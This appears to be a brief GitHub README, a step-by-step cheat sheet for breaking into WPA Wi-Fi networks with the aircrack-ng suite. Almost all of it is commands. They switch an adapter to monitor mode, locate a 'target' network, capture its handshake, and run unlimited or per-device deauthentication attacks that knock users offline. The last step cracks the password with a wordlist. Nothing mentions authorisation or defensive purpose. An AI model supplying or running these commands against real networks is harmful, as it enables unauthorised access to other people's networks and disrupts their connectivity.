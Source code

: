 ## Ubuntu Wifi Hack Aircrack-ng (vol. 1) 

### Before we start

- ```<wlan0>``` stands for your wifi adapter
- ```<wlan0mon>``` stands for your wifi adapter in monitor mode
- ```<bssid>``` stands for the target bssid
- ```<ch>``` stands for the target channel
- ```<filename>``` stands for the filename

### Let's dive in...

See the devices
- ```iwconfig```

Check for any conflicting processes and kill them.
- ```sudo airmon-ng check kill```

Set adapter monitor mode on.
- ```sudo airmon-ng start <wlan0>```

Monitor networks
- ```sudo airodump-ng <wlan0mon>``` | Get the *bssid* and *channel* info

Montior and wait for WPA handshake
- ```sudo airodump-ng -w <filename> -c <channel> --bssid <bssid> <wlan0mon>```

Deauth attack on another terminal
- ```sudo aireplay-ng --deauth 0 -a <bssid> <wlan0mon>``` | directly
- ```sudo aireplay-ng -0 2 -a <bssid> -c <stationaddr> <wlan0mon>``` | to a specific device

Crack the password
- ```sudo aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de```

### Exit

- ````sudo airmon-ng stop <wlan0mon> && service NetworkManager restart```

